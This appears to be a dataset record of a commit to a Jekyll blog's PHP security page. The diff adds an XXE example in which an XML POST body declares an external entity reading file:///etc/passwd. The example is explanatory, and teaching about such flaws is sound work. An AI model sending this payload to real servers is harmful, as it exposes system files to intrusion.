

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 13482 px. Shown: the whole window, without its empty margins (108-1167 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 14136 px from its top, so only the background shows below that.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -264,7 +264,16 @@ Content-Type: application/xml<br><br>
 &lt;?xml version="1.0" encoding="UTF-8"?><br>
   &lt;user><br>
       &lt;id>54433&lt;/id><br>
-      &lt;name>Test&lt;/name><br>
-      &lt;email>test@example.com&lt;/email><br>
+  &lt;/user><br>
+</code><br>
+
+What an attacker can do is:<br>
+<code>POST /account HTTP/1.1<br>
+Host: example.com<br>
+Content-Type: application/xml<br><br>
+&lt;?xml version="1.0" encoding="UTF-8"?><br>
+&lt;!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
+  &lt;user><br>
+      &lt;id>&xxe;&lt;/id><br>
   &lt;/user><br>
 </code>
```
